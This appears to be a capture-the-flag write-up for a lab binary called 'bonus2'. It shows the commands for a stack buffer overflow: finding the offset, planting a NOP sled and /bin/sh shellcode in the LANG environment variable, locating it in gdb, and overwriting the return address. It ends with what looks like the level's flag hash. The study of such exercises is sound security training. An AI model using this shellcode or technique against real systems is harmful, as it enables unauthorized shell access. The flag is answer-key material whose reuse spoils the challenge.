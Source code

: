```bash
run $(python -c "print 'A' * 40") Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
```
  
`0x38614137 -> offset == 23`

```
nl -> DAT_08048740
fi -> DAT_0804873d
```
  
```bash
export LANG=$(python -c 'print "nl" + "\x90"*153 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"')

> gdb ./bonus2
> break main
> run
> x/600wx $esp
0xbffff808: 0x90909090 0x90909090 0x90909090 0x90909090
0xbffff818: 0x90909090 0x90909090 0x90909090 0x90909090 # This one
0xbffff828: 0x90909090 0x90909090 0x90909090 0x90909090

0xbffffe9c
```

```bash
./bonus2 $(python -c "print 'A' * 40") $(python -c "import struct; print('B' * 23 + struct.pack('I',0xbffffe9c))")
```

  `71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587`
